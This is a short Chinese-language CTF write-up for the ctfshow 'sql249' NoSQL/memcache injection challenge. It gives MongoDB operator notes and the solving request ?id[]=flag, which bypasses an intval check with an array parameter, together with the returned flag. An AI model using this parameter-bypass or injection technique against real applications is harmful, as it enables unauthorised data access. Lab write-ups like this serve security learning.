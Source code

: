 # ctfshow-sql249



##### 参考链接

其他大佬链接

feng  https://blog.csdn.net/rfrder/article/details/113759746

Je3    https://blog.csdn.net/jvkyvly/article/details/115458909

Y4	 https://blog.csdn.net/solitudi/article/details/110144623

郁离歌大佬 https://blog.csdn.net/like98k/article/details/79436463

sql常见方法及udf提权   https://blog.csdn.net/qq_43645782/article/details/105468416

bit  https://www.xl-bit.cn/index.php/archives/93/





 查询语句 

```
  //无
  $user = $memcache->get($id);

	开始nosql,flag在flag中
```



 返回逻辑 

```
  //无过滤


```



```sql
补充一下nosql注入笔记
http://rui0.cn/archives/609
https://www.anquanke.com/post/id/97211





$gt : >
$lt : <
$gte: >=
$lte: <=
$ne : !=、<>
$in : in
$nin: not in
$all: all 
$or:or
$not: 反匹配(1.3.3及以上版本)
模糊查询用正则式：db.customer.find({'name': {'$regex':'.*s.*'} })
/**
* : 范围查询 { "age" : { "$gte" : 2 , "$lte" : 21}}
* : $ne { "age" : { "$ne" : 23}}
* : $lt { "age" : { "$lt" : 23}}
*/


//查询age = 22的记录
db.userInfo.find({"age": 22});
//相当于：select * from userInfo where age = 22;
//查询age > 22的记录
db.userInfo.find({age: {$gt: 22}});
//相当于：select * from userInfo where age > 22;



http://e7c3ca66-bf8b-4b17-bb2c-03b745b68a77.challenge.ctf.show/api/?id=1
{"code":0,"msg":"\u67e5\u8be2\u6210\u529f","count":1,"data":[{"id":"1","username":"user1","pass":"pass1"}]}

这题的话提示了flag在flag中，相当于找flag的值，正常肯定是id=flag，但是会返回error。
对于非空的数组，intval会返回1，应该可以绕过intval的检验：?id[]=flag

http://e7c3ca66-bf8b-4b17-bb2c-03b745b68a77.challenge.ctf.show/api/?id[]=flag

{"code":0,"msg":"\u67e5\u8be2\u6210\u529f","count":1,"data":[{"flag":"ctfshow{f968a986-9379-4396-b77f-2059d38d5a33}"}]}




```



























